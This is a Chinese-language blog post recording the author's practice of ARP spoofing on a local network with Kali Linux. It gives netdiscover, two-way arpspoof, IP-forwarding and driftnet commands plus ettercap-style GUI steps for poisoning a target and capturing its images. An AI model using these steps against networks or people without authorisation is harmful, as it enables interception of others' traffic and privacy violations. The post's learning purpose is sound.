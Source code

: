 ```yaml
---
title: kali进行arp嗅骗和攻击的一次记录
date: 2019-10-14T21:57:23.000Z
categories:
  - 网络安全
tags:
  - 网络安全 - kali
---
```


# kali进行arp嗅骗和攻击的一次记录

由于本人打算考网络安全的专硕，所以这几天玩了一次kali。恩，怎么说呢，感触挺深的，特此记录下来

## arp基础

在我们进行各种高大上的讲解的时候，我们要先清楚一点，我们如何在网上进行各种活动的。 比如我们经常用的baidu,我们是如何访问到baidu的服务器的。

我们可以通过追踪路由来弄清楚这个问题

windows: tracert linux:traceroute

通过运行上面的命令我们可以看出数据包的传输过程 ![](https://s2.ax1x.com/2019/10/14/KpcYcR.png)

> 由于本人身处深山，所以网络查的可以，上面的图仅供参考

我们可以看到，我们的探测数据包经过了很多路由的转发最终达到了我们的机器上

并且，这里我们需要引出很重要的东西 -- **网关**

网关我们可以这么理解: 相信大家家里都有有线网了吧，我们其实可以把网关看成我们的那个接入网络的光猫路由器。

我们所有的数据包都是通过网关这个小东西传输。

现在，重点来了！！！！

> 敲黑板

假如，我们在同一个局域网下面，有两台机器，一台是我们自己，一台是需要攻击的机器。

那么，正常情况下，两台机器都有自己的ip地址 (192.168.x.x)，进行自己正常的网络服务,但是如果我们告诉对方机器现在我就是路由器，而且如果我的机器不能进行端口转发的时候，对面的机器就进不去网了。

需要注意的一点哈，现在我们告诉了对方机器我们是路由器，但是路由器还是可以给对面机器通信的。

这一点可以重复上面的操作，就是告诉路由器我们就是对面机器，进行双向嗅探来解决。

## 如何进行攻击

### 命令行方法

一、 获取对方信息

由于这篇博客写的是内网渗透，所以，我们需要扫描当前网络下的其他机器

```bash
  > ifconfig
```

![](https://s2.ax1x.com/2019/10/16/KiPr90.png)

先查看一下自己ip 里面重要的消息 有网卡和ip

这里说明一点,一般的话网关的最后一位数字一般都是1

```bash
  > netdiscover -i [网卡] -r [网关/24]
  example:
  > netdiscover -i eth0 -r 192.168.3.1/24
```

这样就可以获取对方ip，这里我只有一台电脑，我就不放图了

二、开始进行嗅探

```bash
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

> arpspoof -i eth0 [对方ip]  网关

```

双向嗅探

```bash
  > arpspoof -i eth0 [对方ip]  网关
  > arpspoof -i eth0 [网关]  对方ip
```

> 由于kali默认情况下是禁止端口转发的，所以现在的情况下对面机器是断网的

开启端口转发

```bash
  echo 1> /proc/sys/net/ipv4/ipforward
```

1是开启 0是关闭

> proc是目前开机的时候机器的配置，重启的话会重置

抓取对面图片

```bash
  driftnet -i eth0
```

### 软件嗅探

![](https://s2.ax1x.com/2019/10/16/KiFqkd.png)

具体做法

sniff->unified sniffing

host -> hostlist

host -> scan for host

![](https://s2.ax1x.com/2019/10/16/KikuBF.png)

网关IP add to target 1 靶机 add to target 2

Mitm->ARP poisoning

要记住选中第一项 第二项是单项ARP毒缓存 用于靶机会失败报警 单向欺骗网关

开启driftnet
